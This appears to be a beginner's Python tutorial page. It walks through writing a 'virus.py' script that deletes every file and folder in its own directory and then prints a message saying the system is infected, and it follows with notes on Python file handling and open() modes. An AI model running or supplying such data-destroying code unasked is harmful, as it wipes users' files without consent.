  # Example:
- For simplicity, i will show you making a simple python program that will delete files in a folder which it is opened.
- Lets create a test folder and our virus.py file Also let’s create some random files for test.
   - In Vscode.
   - Import os package
   - **OS package is a module that helps us to interact and do some Terminal commands because as you know python is not like bash and cant run shell commands directly.**
```python
# to have shell access
import os
  
# to hold the name of files
files = []
# to hold the names of folders
folders = []

# checks the file names
for file in os.listdir():
    # and add then to files list but skipping the virus.py file
    if file != "virus.py":
        if os.path.isfile(file):
            files.append(file)
    # add to the folders list by checking with os.path.isfile()
        else:
            folders.append(file)
    else:
        pass
  
# iterates and detetes the files in files list
for i in files:
    os.remove(i)  
# iterates and deletes the folders in the folders list
for j in folders:
    os.removedirs(j) 

# displaying we hacked them
print("your system is infected and your files are gone!")
```
- **Result**: when we run virus.py in our terminal. it will remove all the files in the folder only leaving the virus.py
## File handling in python
- Files are names locations on disk to store related information. Files Used to Store Data in Storage Devices.
- When we want to read from or write to a file, we need to open it. And also when we are done we will close it.
- In Python ,a File Operation takes place in the following order: Open a File, Read or Write(perform operation), Close the file.
- **python has built-in functions:**
## open()
- Syntax: `with open(“fileName or filePath”,’x’) as var`
- Modes:
    -  write -----------------w
    - read-------------------r 
    - append---------------a 
    - Create---------------- x
    - text mode-------------t 
    - binary mode-----------b    

